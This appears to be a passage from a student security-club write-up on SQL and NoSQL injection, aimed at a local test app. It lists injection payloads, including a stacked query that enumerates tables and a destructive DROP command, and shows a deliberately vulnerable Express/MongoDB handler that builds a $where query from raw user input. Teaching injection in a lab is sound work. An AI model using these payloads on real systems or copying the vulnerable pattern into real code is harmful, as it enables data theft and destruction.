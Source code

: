 #### Payload Procedure

- Go to `localhost:8080` in your web browser
- Type `' or ''='`
  - This will return the contents of the table
- Type `'; select * from information_schema.tables where ''='`
  - This will return all the tables on the server
- Type `'; DROP found_table; --'`

### Why is this present?

This is present because the input from the user adds further SQL commands that the developer did not expect. The input string gives the user direct access to the database in use and can enter any command as if it were their own.

## Using `mongodb` npm package

### Dependencies

`mongodb`
`express`

### Exploitable Source
#### [mongoexploit.js](https://github.uconn.edu/jrs12014/OSC-UConn/tree/master/WriteUps/SQLInjections/mongoDB/mongoexploit.js)
``` javascript
app.post('/', function(req, res){
	MongoClient.connect(url, function(err, db) {
		if(err) throw err;
		console.log("Connected!");
		var dbo = db.db("mydb");
		var query = { 
			$where: "this.name === '" + req.body.name_field + "'"
		};
		dbo.collection("customers").find(query).toArray(function(err, result){
			if (err) throw err;
			console.log(result);
			res.send(result);
		});
		db.close();
	});
});
```

### Running the exploit

#### Starting the Mongo server

Download the mongo database server from [docs.mongodb.com](https://docs.mongodb.com/manual/tutorial/install-mongodb-on-ubuntu/) and follow the steps to set it up.
